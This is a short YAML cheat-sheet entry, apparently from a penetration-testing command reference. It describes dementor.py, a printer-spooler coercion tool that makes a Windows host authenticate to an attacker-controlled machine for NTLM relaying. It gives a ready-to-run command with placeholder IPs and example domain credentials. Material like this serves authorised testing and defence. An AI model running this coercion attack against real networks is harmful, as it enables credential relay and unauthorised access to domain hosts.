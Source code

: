 ```yaml
---
description: |
  dementor.py interacts with the printer spooler on a host to trigger an authentication from the target IP to an attacker controlled host (usually an SMB or HTTP server). This captured authentication can then be relayed to authenticated to other hosts. See more in ntlmrelayx.py. 

  Command Reference:

  	Target IP: 10.10.10.1

  	Attacker IP: 10.10.10.2

  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 dementor.py -u john -p password123 -d test.local 10.10.10.2 10.10.10.1
  Username:
    - code: |
        empty
filters:
  RPC:
    - code: |
        empty
---
```

